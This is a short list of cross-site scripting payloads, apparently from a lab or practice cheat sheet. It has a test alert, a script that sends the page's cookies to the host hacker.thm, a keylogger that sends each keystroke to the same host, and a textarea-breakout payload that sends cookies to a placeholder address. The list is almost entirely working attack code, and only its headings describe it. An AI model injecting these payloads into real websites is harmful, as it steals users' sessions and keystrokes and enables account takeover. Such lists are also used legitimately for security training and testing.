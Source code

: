 # test

<script>alert('XSS');</script>

# session steal

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

# key logger

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

# example

</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
